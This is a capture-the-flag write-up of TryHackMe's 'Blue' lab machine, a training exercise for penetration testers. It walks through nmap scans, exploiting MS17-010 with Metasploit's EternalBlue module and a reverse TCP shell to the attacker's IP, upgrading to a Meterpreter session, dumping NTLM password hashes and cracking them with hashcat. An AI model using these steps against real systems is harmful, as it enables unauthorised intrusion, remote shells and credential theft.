

# TryHackMe Writeup - Blue

This is a writeup to the TryHackMe windows machine "Blue".

<https://tryhackme.com/room/blue>

## Task 1: Recon

### Scan the machine

I begin with a basic nmap portscan. I started with the following command:

```
nmap -v -A -p- -Pn 10.10.122.159
```

This command scans the complete port range. It also tries to performe service detection and OS detection. The windows machine is not responding to ping. Because of this, nmap will pretend that the machine is offline. Therefore we have to use the parameter "-Pn". This skips host discovery and treats the host as online.

I get the following nmap result:

```
Nmap scan report for 10.10.122.159
Host is up (0.064s latency).
Not shown: 65044 closed tcp ports (conn-refused), 482 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Issuer: commonName=Jon-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-05T18:43:06
| Not valid after:  2024-01-04T18:43:06
| MD5:   8cef:869c:9b14:246f:c54d:bbbc:1018:44b2
|_SHA-1: 8d26:03aa:3802:54b0:6bbd:36a7:cc7e:5ed1:8431:8209
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

### How many ports are open with a port number under 1000?

Looking on the nmap results, I can see that there are 3 open ports with a port number under 1000:

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds 
```

### What is this machine vulnerable to?

I used the following command to identify common vulnerabilities using nmap. 

```
sudo nmap -p- -v --min-parallelism 100 -A -script vuln 10.10.122.159
```

It provided the following results:

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

I can find in the output that it is vulnerable to a remote code execution vulnerability in Microsoft SMBv1 servers. The answer therefore is "ms17-010".

## Task 2: Gain Access

To gain access to the target machine, I use Metasploit. The metasploit framework can be started with the command

```
msfconsole
```

### Find the exploitation code we will run against the machine. What is the full path of the code?

I performed a quick google search on the ms17-010 vulnerability for metasploit and found the following webpage:

<https://www.jamescarroll.me/blog/exploiting-ms17-010-with-metasploit-2020>

I opened metasploit and searched for the possible exploits and found 

```
exploit/windows/smb/ms17_010_eternalblue
```

### Show options and set the one required value. What is the name of this value?

With the command 

```
show options
```

I discover that the required option RHOST (remote host) needs to be set. 



I use

```
set RHOSTS 10.10.122.159
```

to set the RHOSTS to the IP of the windows machine. After that I set the payload to a reverse tcp shell with the command

```
set payload windows/x64/shell/reverse_tcp
```

For the payload I need to specify the LHOST parameter to my IP address, which is in my case 10.8.66.255 with the command

```
set LHOST 10.8.66.255
```

Then I can run the exploit with the command

```
exploit
```

The output tells me that I got a reverse shell


## Task 3: Escalate

### Establish Meterpreter session

After the successful exploit I have a basic shell. But I want more. First I need to put the current session in background with the CTRL+Z key input. To extend the opened reverse shell to a meterpreter session I use the post module with

```
use post/multi/manage/shell_to_meterpreter
```

With the 

```
show options
```

command I find that we have to set the sessions parameter. For this I use the

```
sessions
```

command to show the active sessions. Then I use

```
set SESSION 1
```

to use the first and only active session. With 

```
exploit
```

I start the post module and get a meterpreter shell session. I open the new session with 

```
sessions 1
```

and get the meterpreter shell. I then check as which user we are logged in. I can do this in the windows shell. With the command

```
shell
```

I start the windows shell inside the meterpreter shell and execute the command

```
whoami
```

The output tells me that we are logged in as nt authority/system

```
meterpreter > shell
Process 2808 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Task 4: Cracking

I execute the command

```
hashdump
```

to dump all stored credential hashes. We get the following output

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

There is a non standard user called Jon on the machine, an administrator account and a guest account.

I copied the output into a text file. I then used hashcat and the wordlist "rockyou" to crack the password hashes. The wordlist "rockyou" can be downloaded from github [here](https://github.com/zacheller/rockyou). On kali it is already stored in the "/usr/share/wordlists" directory.

The command to crack the hashes is

```
hashcat -m 1000 <file to dumped hashes> /usr/share/wordlists/rockyou.txt
```

The hash is cracked and the password is displayed.

## Task 5: Find flags

Within the meterpreter session I use

```
search -f *flag*
```

to search on the host for any files which contain the string "flag" in the filename.

The following files were found:


With 

```
cat <path to file>
```

I can display the content of the regarding file. All flags are found and the machine is done!